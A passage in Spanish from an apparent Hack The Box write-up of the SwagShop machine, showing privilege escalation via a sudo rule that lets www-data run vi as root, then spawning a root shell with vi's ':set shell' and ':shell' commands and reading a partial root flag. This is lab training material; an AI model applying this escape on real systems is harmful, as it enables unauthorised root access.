 Para empezar a reconocer por donde podemos escalar privilegios en esta máquina se me ocurre el siguiente comando:

```
sudo -l
```

| Parámetro | Descripción                                                                       |
| --------- | --------------------------------------------------------------------------------- |
| `-l`      | Nos permite ver que **comandos** puede ejecutar el usuario con permisos **root**. |

```
www-data@swagshop:/var/www/html$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

Podemos ver que podemos usar **vi** como **root** dentro de la ruta `/var/www/html/`. Podemos aprovecharnos de esto de la siguiente manera:

```
:set shell=/bin/bash
```

```
:shell
```

Esto es un exploit muy sencillo y muy útil:

```
root@swagshop:/var/www/html# whoami
root
root@swagshop:~# cat root.txt 
b174b0d0bc513f1...
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/188)

---